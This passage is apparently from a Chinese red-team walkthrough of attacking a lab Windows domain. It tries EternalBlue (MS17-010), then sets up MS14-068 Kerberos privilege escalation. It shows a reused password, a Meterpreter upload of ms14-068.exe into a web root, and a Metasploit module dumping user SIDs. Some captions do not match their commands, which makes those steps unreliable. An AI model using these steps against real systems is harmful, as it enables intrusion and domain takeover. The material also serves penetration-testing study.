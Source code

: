 发现目标存在永恒之蓝！

随其进行 ms17010 漏洞利用：（由于目标是内网，不能出网，我们只能设置正向的 payload，类似于 cs 的中转上线）

```
.\\administrator
!@#Qwe456
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaSAfItGEqgxTwLSZnicib0MTEibl3XBrAmOFpVLftL1MG7ZLicbCcK6Kgicw/640?wx_fmt=png)

但是利用失败了：（ms17017 有的时候就有点玄学）

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaD5t3ng5DyS6nEj7Iqj2roRDIy4xZicAN5Ug2q0jtZheUr3kzPxj1rDA/640?wx_fmt=png)

这个时候我们可以尝试 kerberos 域用户提取的漏洞：ms14-068，他能够将域内任意用户提取到域管理员！

关于这个漏洞大家可以去我公众号：渗透攻击红队查看相关文章，我之前有写过！

* * *

**Ms14-068 提权到域控**

由于之前我们获取到了 web 的密码为：!@#Qwe456，然后尝试进行远程桌面登陆域用户：发现登陆失败，域用户 web 应该是没有远程桌面的权限的

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPialhKAH4Kjvme87LHgiceIXJ0zAiawu0BoCibVsxH9JxIicekyNtw6AzibYwA/640?wx_fmt=png)

但是我们可以通过登陆它的工作组：  

```
upload /root/ms14-068.exe C:/phpstudy\_pro/WWW/www.webhack123.com/ms14-068.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiamJfTarQ6eFZhrVJlRicttNhSoib4KjhmdrF7IHcDAicJkG0Hov4lmEib8w/640?wx_fmt=png)

那么我们之间吧 ms14-068.exe 上传到目标 web 的主机上：

```
cd C:\\phpstudy\_pro\\WWW\\www.webhack123.com\\
chcp 65001  #  设置一下字符编码
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaoKTheCQ9av9EKXwjPkqibeaav7cUONs75Wkdc1DaEQL7FLubuKicxRpw/640?wx_fmt=png)

然后切换到 ms14-068.exe 那个文件的目录下：

```
run post/windows/gather/enum\_logged\_on\_users
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiasuDH3b74fp90w6WnZdicWl21xksIKic8gLG7fjQtlyJLawFPRYtgJoag/640?wx_fmt=png)

由于使用 ms14-068 需要一个域用户的账号密码，和域用户的 sid，以及域控的 ip，而我们没有 sid，那么我们需要使用 msf 查看域用户 web 的 sid：

```
Recently Logged Users
=====================

 SID                                            Profile Path
 ---                                            ------------
 S-1-5-18                                       %systemroot%\\system32\\config\\systemprofile
 S-1-5-19                                       C:\\Windows\\ServiceProfiles\\LocalService
 S-1-5-20                                       C:\\Windows\\ServiceProfiles\\NetworkService
 S-1-5-21-1443003717-4130318662-4279967973-500  C:\\Users\\Administrator
 S-1-5-21-2005268815-658469957-1189185684-1103  C:\\Users\\web
 S-1-5-21-2005268815-658469957-1189185684-500   C:\\Users\\Administrator.HACKBOX
```
